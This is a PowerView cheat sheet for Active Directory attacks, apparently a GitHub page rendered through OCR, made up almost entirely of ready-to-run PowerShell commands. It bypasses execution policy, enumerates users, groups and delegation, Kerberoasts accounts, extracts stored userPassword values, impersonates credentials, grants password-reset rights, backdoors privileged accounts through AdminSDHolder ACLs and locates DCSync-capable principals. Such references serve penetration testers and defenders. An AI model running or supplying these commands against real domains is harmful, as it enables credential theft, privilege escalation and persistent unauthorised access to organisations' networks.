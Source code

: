 
### Start PowerShell with Execution Policy Bypass
```cmd
powershell -ep bypass
```

### Load PowerView
```powershell
.\PowerView.ps1
```

### Enumerate Domain Users
```powershell
Get-NetUser | select on
```

### Enumerate Domain Groups with Admin in the Name
```powershell
Get-NetGroup -GroupName *admin*
```

## Advanced Usage

### Get all Groups a User is a Member of
```powershell
Get-DomainGroup -MemberIdentity <User/Group>
```

### Get all Effective Members of a Group
```powershell
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
```

### Use an Alternate Credential
```powershell
$SecPassword = ConvertTo-SecureString 'Password!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\User', $SecPassword)
Get-DomainUser -Credential $Cred
```

### Find all Users with an SPN Set (Likely Service Accounts)
```powershell
Get-DomainUser -SPN
```

### Enumerate all Servers that Allow Unconstrained Delegation
```powershell
$Computers = Get-DomainComputer -Unconstrained
```

### Return the Local Groups of a Remote Server
```powershell
Get-NetLocalGroup SERVER.domain.local
```

### Kerberoast Users in a Particular OU
```powershell
Invoke-Kerberoast -SearchBase "LDAP://OU=secret,DC=domain,DC=local"
```

### Enumerate all Global Catalogs in the Forest
```powershell
Get-ForestGlobalCatalog
```

### Enumerate the Current Domain Controller Policy
```powershell
$DCPolicy = Get-DomainPolicy -Policy DC
```

### Set the Specified Property for a Given User Identity
```powershell
Set-DomainObject testuser -Set @{'property'='value'} -Verbose
```

### Enumerate Permissions for GPOs
```powershell
Get-DomainObjectAcl -LDAPFilter '(objectCategory=groupPolicyContainer)'
```

### If Running in -sta Mode, Impersonate Another Credential
```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\User', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
Invoke-RevertToSelf
```

### Find All Machine Accounts in Privileged Groups
```powershell
Get-DomainGroup -AdminCount | Get-DomainGroupMember -Recurse | ?{$_.MemberName -like '*$'}
```

### Enumerate All Foreign Users in the Global Catalog
```powershell
$ForeignUsers = Get-DomainObject -Properties objectsid,distinguishedname -SearchBase "GC://domain.local" -LDAPFilter '(objectclass=foreignSecurityPrincipal)' | ? {$_.objectsid -match '^S-1-5-.*-[1-9]\d{2,}$'} | Select-Object -ExpandProperty distinguishedname
$Domains = @{}
$ForeignMemberships = ForEach($ForeignUser in $ForeignUsers) {
    $ForeignUserDomain = $ForeignUser.SubString($ForeignUser.IndexOf('DC=')) -replace 'DC=','' -replace ',','.'
    if (-not $Domains[$ForeignUserDomain]) {
        $Domains[$ForeignUserDomain] = $True
        $Filter = "(|(member=" + $($ForeignUsers -join ")(member=") + "))"
        Get-DomainGroup -Domain $ForeignUserDomain -Scope DomainLocal -LDAPFilter $Filter -Properties distinguishedname,member
    }
}
$ForeignMemberships | fl
```

### Check if any User Passwords are Set
```powershell
$FormatEnumerationLimit=-1;Get-DomainUser -LDAPFilter '(userPassword=*)' -Properties samaccountname,memberof,userPassword | % {Add-Member -InputObject $_ NoteProperty 'Password' "$([System.Text.Encoding]::ASCII.GetString($_.userPassword))" -PassThru} | fl
```

### Grant User 'will' the Rights to Change 'matt's Password
```powershell
Add-DomainObjectAcl -TargetIdentity matt -PrincipalIdentity will -Rights ResetPassword -Verbose
```

### Audit the Permissions of AdminSDHolder, Resolving GUIDs
```powershell
Get-DomainObjectAcl -SearchBase 'CN=AdminSDHolder,CN=System,DC=domain,DC=local' -ResolveGUIDs
```

### Backdoor the ACLs of all Privileged Accounts with the 'matt' Account Through AdminSDHolder Abuse
```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=domain,DC=local' -PrincipalIdentity matt -Rights All
```

### Retrieve Most Users who Can Perform DC Replication (i.e., DCsync)
```powershell
Get-ObjectACL "DC=domain,DC=local" -ResolveGUIDs | ? {
    ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')
}
```

### Find Linked DA Accounts Using Name Correlation
```powershell
Get-DomainGroupMember 'Domain Admins' | %{Get-DomainUser $_.membername -LDAPFilter '(displayname=*)'} | %{$a=$_.displayname.split(' ')[0..1] -join ' '; Get-DomainUser -LDAPFilter "(displayname=*$a*)" -Properties displayname,samaccountname}
```

### Save a PowerView Object to Disk for Later Usage
```powershell
Get-DomainUser | Export-Clixml user.xml
$Users = Import-Clixml user.xml
```

### Use Alternate Credentials for Searching for Files on the Domain
```powershell
$Password = "PASSWORD" | ConvertTo-SecureString -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential("DOMAIN\user",$Password)
Find-InterestingDomainShareFile -Domain DOMAIN -Credential $Credential
```
